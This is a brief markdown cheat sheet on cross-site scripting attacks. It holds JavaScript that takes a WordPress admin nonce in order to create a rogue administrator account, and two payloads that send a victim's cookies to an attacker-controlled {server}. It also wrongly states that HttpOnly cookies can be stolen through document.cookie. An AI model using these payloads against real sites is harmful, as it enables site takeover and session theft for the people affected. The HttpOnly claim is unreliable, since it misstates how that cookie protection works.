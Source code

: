 ```yaml
---
layout: blank
pagetitle: XSS
---
```


**XSS Exploitation Example**
- Grabbing a nonce value from /wp-admin/user-new.php
	- var ajaxRequest = new XMLHttpRequest(); 
	- var requestURL = "/wp-admin/user-new.php"; 
	- var nonceRegex = /ser" value="(\[^"]\*?)"/g; 
	- ajaxRequest.open("GET", requestURL, false); 
	- ajaxRequest.send(); 
	- var nonceMatch = nonceRegex.exec(ajaxRequest.responseText); 
	- var nonce = nonceMatch\[1];
- Then, use that `nonce` variable with /wp-admin/user-new.php to create a new administrator


Cookies with HttpOnly can be stolen with XSS
- `<script>fetch('http://{server}?c='+document.cookie)</script>`
- `<img src=x onerror=this.src='http://{server}/?c='+document.cookie>`